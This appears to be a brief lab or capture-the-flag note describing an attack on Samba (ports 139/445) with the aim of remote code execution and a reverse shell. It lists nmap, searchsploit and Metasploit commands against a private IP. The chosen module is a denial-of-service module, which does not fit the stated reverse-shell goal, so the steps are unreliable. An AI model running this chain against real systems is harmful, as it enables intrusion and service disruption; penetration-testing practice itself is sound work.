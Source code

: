

## Aim

		trying to run remote code execution on port no 139 and 445 and want to reverse shell

## Exploit Chain

		1. search in nmap with -sC and -sV 
		2. search in searchsploit with service version
		3. serch in metasploit with auxiliary/dos/samba/read_nttrans_ea_list
		4. set parameter as required

## Commands

		1.nmap -sC 192.168.24.129 -p 139
		2. searchsploit samba 3.x
		3. msfconsole
		4. search samba 3.x
		5. use auxiliary/dos/samba/read_nttrans_ea_list
		6. set parameter (rhost ,lhost )
		7. run